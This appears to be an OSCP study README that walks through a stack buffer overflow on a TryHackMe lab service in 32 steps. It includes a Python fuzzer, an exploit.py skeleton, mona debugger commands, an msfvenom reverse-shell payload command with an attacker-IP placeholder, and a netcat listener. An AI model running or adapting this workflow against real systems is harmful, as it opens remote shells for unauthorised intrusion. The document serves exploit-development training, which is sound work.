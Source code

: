 # Buffer Overflows - OSCP Prep

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

* Step 1: Ensure Mona is installed in Immunity Debugger

* Step 2: Launch Immunity Debugger, open relevant application, and run the application

* Step 3: Configure working folder with this command at the bottom of Immunity Debugger:

```
!mona config -set workingfolder [FILE-PATH]
```

Example:

```
!mona config -set workingfolder c:\mona\%p
```

* Step 4: Fuzz the application; Note the length of string that is needed to crash the application

Example Python Code for Fuzzing:

 ```
 #!/usr/bin/env python3

import socket, time, sys

ip = "10.10.237.191"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
* Step 5: Create exploit.py skeleton:
 
 Example exploit.py :
 
 ```
 import socket

ip = "10.10.237.191"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  ```
  
* Step 6: Generate cyclic pattern with this command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [PATTERN-LENGTH]
```
*Make PATTERN-LENGTH 400 bytes longer than the string that crashed the application while fuzzing*

* Step 7: Paste output from Step 6 into payload variable of exploit.py
  
* Step 8: Restart application in Immunity, Run exploit.py from attack machine
 
* Step 9: After exploit.py crashes the application, run this command in Immunity to determine offset:
 
 ```
 !mona findmsp -distance [PATTERN-LENGTH]
 ```
 
* Step 10: Paste offset amount into the offset variable of exploit.py
 
* Step 11: Set retn variable to "BBBB" in exploit.py
 
* Step 12: Restart Application; Run exploit.py
 
* Step 13: Ensure EIP is under control (EIP should have: 42424242)
 
* Step 14: Create script to help generate bad characters

Example:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Step 15: Run Bad Characters Script

* Step 16: Paste Bad Characters output into payload variable of exploit.py

* Step 17: Re-open application in Immunity but do not run it

* Step 18: Generate byte array in Immunity with this command:

```
!mona bytearray -b "\x00"
```

* Step 19: Start application in Immunity; Run exploit.py on attack machine

* Step 20: Compare byte array with this command in Immunity to see possible bad characters:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESP-ADDRESS]
```

* Step 21: Remove first bad character in the list in Step 19 from payload variable in exploit.py

* Step 22: Reopen Application but do not run it

* Step 23: Generate byte array again in Immunity with same command as last time, but make sure you add the bad character to the exception list

Example:
```
!mona bytearray -b "\x00\x07"
```

* Step 24: Repeat steps 18-21 until Step 19 says "Unmodified" in the Immunity logs (These are the bad characters)

* Step 25: In crashed or running state, find jump point in Immunity with this command:

```
!mona jmp -r esp -cpb [BAD-CHARACTERS]
```

* Step 26: Write jump point address discovered backwards into the retn variable of exploit.py

For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in exploit.py

* Step 27: Generate payload with this command:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=4444 EXITFUNC=thread -b "[BAD-CHARACTORS]" -f c
```

* Step 28: Paste generated payload into payload variable of exploit.py

* Step 29: Add padding to exploit.py

Example:

```
padding = "\x90" * 16
```

* Step 30: Start netcat listener

Example:
```
nc -lnvp 4444
```

* Step 31: Restart application in Immunity, Run it, and run exploit.py from attack machine

* Step 32: Check listener, it should have a shell

## Reference

* https://tryhackme.com/room/bufferoverflowprep#
